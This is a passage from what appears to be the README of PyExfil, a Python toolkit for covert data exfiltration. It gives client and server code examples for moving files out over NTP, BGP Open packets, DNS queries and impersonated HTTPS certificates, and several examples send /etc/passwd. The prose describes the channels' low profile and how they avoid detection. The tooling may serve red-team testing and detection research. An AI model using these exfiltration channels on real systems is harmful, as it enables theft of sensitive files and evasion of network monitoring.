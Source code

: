 ```python
from pyexfil.network.NTP.ntp_exfil import exfiltrate, ntp_listen, NTP_UDP_PORT

# For Client (exfil)
ip_addr = "127.0.0.1"
exfiltrate("/etc/passwd", ip_addr, time_delay=0.1)

# For Server (collecting)
ntp_listener(ip="0.0.0.0", port=NTP_UDP_PORT)
```

#### BGP Open
This module rides a BGP packet for establishing data communication. Since BGP is used for routing is usually has a lower profile in attacks although a small examination of such packets will show abnormal behavior.

```python
from pyexfil.network.BGP.bgp_exfil import server, exfiltrator

# For Client (exfil)
ip_addr = "5.6.7.8"
exfiltrator(ip_addr, "/etc/passwd", time_delay=0.1)

# For Server (collecting)
server("1.2.3.4")
```

#### DNSQ
Use DNS Queries to exfiltrate short bursts of communication or a full file. You must control the TLD for this to work. Listener must be executed on the DNS server.

```python
#!/usr/bin/env python3

from pyexfil.network.DNSQ import Send, Broker


a = Send(file_path='/etc/passwd', name_server='main.com', key=PYEXFIL_DEFAULT_PASSWORD)
a.Exfiltrate()

b = Broker(key=PYEXFIL_DEFAULT_PASSWORD, retFunc=_testCallBack, host='', port=53)
b.Listen()
```


#### HTTPS Replace Certificate
With this method you are configuring an HTTP server to impersonate the certificate. When you exfiltrate data, it will use the original server to exchange certificates with the duplicating server (port forwarding) and then, when this is complete, transmit the data with AES encryption but wraps it up as SSL Application Data as there is no real way of telling this.

For using this method as string delivery (short messages):
```python
# For Server:
from pyexfil.network.HTTPS.https_server import HTTPSExfiltrationServer

server = HTTPSExfiltrationServer(host="127.0.0.1", key="123", port=443, max_connections=5, max_size=8192)
server.startlistening()

# For Client:
from pyexfil.network.HTTPS.https_client import HTTPSExfiltrationClient

client = HTTPSExfiltrationClient(host='127.0.0.1', key="123", port=443, max_size=8192)
client.sendData("ABC")
client.sendData("DEFG")
client.close()
```